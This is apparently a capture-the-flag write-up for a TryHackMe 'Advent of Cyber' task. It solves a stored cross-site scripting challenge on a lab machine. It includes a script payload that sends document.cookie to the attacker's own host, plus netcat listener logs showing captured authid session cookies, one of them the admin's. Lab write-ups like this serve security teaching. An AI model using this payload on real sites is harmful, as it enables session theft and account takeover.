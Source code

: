 1. What is the admin's authid cookie value?

- [http://10.10.186.115:3000/login](http://10.10.186.115:3000/login)
- [http://10.10.186.115:3000/home](http://10.10.186.115:3000/home)

`</p><script>console.log("XSS Works")</script><p>`

![](2020-10-03_09-55.png)

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nc -nlvp 80
[sudo] password for kali:
listening on [any] 80 ...
```

`</p><script>window.location = 'http://10.8.106.222/page?param=' + document.cookie </script><p>`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nc -nlvp 80
[sudo] password for kali:
listening on [any] 80 ...
connect to [10.8.106.222] from (UNKNOWN) [10.8.106.222] 47828
GET /page?param=authid=9dd22399fb1f4fdacb008d861576680c4d34607b HTTP/1.1
Host: 10.8.106.222
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.186.115:3000/home
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nc -nlvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from 10.10.138.108 45766 received!
GET /?cookie=authid=2564799a4e6689972f6d9e1c7b406f87065cbf65 HTTP/1.1
Host: 10.9.**.**
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://localhost:3000/admin
Accept-Encoding: gzip, deflate
```
